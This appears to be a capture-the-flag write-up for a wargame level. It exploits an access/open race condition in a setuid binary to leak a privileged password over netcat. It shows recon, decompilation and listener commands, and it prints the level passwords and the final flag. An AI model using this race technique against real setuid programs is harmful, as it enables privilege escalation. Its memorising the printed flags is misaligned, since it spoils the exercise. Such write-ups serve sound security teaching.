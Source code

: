 # level10

## Vulnerability: Coding mistake leading to file impersonating

level10's password: `s5cAJpM8ev6XHw998pRWG728z`

1. examinate existing files and permissions

```shell
ls -la
```

shows that the level10 executable belongs to flag10 group, token is flag10:flag10

2. get the executable (from an external device), decompile it using [retdec](https://github.com/avast/retdec) and examine the resulting code

```shell
scp -P 4242 level10@<host>:level10 .
retdecomp level10
```

it seems like the executable reads specified file then sends it to specified host on port 6969, using an access / open flow, which is a vulnerability because we can modify the file between the access and the open

3. testing the above supposition with a sample file and netcat

```shell
echo test > /tmp/test
./level10 /tmp/test 127.0.0.1 | nc -l 6969
```

Shows that we can receive the content of specified file with netcat

4. copy both shell programs in /tmp and chmod +x them, launch both to exploit access / open vulnerability and then receive the password with netcat

```shell
vim /tmp/exploit.sh
chmod +x /tmp/exploit.sh
vim /tmp/launch.sh
chmod +x /tmp/launch.sh
/tmp/launch.sh &
(open another terminal)
/tmp/exploit.sh &
nc -klv 6969 2>/dev/null | grep -v '.*( )*.'
```

gives flag10's password: `woupa2yuojeeaaed06riuj63c`

5. pwn the flag

```shell
su flag10
woupa2yuojeeaaed06riuj63c
getflag
```

gives flag: `feulo4b72j7edeahuete3no7c`
